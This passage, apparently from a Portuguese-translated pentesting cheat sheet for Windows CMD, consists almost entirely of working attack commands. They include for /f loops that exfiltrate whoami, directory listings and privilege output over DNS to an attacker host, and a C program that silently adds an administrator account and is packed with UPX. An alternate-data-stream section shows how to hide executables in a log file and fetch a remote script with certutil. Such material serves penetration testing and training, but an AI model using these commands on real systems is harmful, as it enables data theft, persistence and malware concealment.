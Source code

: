 **`for /f tokens`** técnica: Isso nos permite executar comandos, obter as primeiras X palavras de cada linha e enviá-las através do DNS para o nosso servidor.
```bash
for /f %a in ('whoami') do nslookup %a <IP_kali> #Get whoami
for /f "tokens=2" %a in ('echo word1 word2') do nslookup %a <IP_kali> #Get word2
for /f "tokens=1,2,3" %a in ('dir /B C:\') do nslookup %a.%b.%c <IP_kali> #List folder
for /f "tokens=1,2,3" %a in ('dir /B "C:\Program Files (x86)"') do nslookup %a.%b.%c <IP_kali> #List that folder
for /f "tokens=1,2,3" %a in ('dir /B "C:\Progra~2"') do nslookup %a.%b.%c <IP_kali> #Same as last one
#More complex commands
for /f "tokens=1,2,3,4,5,6,7,8,9" %a in ('whoami /priv ^| findstr /i "enable"') do nslookup %a.%b.%c.%d.%e.%f.%g.%h.%i <IP_kali> #Same as last one
```
Você também pode **redirecionar** a saída e, em seguida, **ler**.
```
whoami /priv | finstr "Enab" > C:\Users\Public\Documents\out.txt
for /f "tokens=1,2,3,4,5,6,7,8,9" %a in ('type "C:\Users\Public\Documents\out.txt"') do nslookup %a.%b.%c.%d.%e.%f.%g.%h.%i <IP_kali>
```
## Chamando CMD a partir de código C
```c
#include <stdlib.h>     /* system, NULL, EXIT_FAILURE */

// When executed by Administrator this program will create a user and then add him to the administrators group
// i686-w64-mingw32-gcc addmin.c -o addmin.exe
// upx -9 addmin.exe

int main (){
int i;
i=system("net users otherAcc 0TherAcc! /add");
i=system("net localgroup administrators otherAcc /add");
return 0;
}
```
## CheatSheet de Fluxos de Dados Alternativos (ADS/Fluxo de Dados Alternativo)

**Exemplos retirados de** [**https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f**](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)**. Há muitos mais lá!**
```bash
## Selected Examples of ADS Operations ##

### Adding Content to ADS ###
# Append executable to a log file as an ADS
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"
# Download a script directly into an ADS
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt

### Discovering ADS Content ###
# List files and their ADS
dir /R
# Use Sysinternals tool to list ADS of a file
streams.exe <c:\path\to\file>

### Extracting Content from ADS ###
# Extract an executable stored in an ADS
expand c:\ads\file.txt:test.exe c:\temp\evil.exe

### Executing ADS Content ###
# Execute an executable stored in an ADS using WMIC
```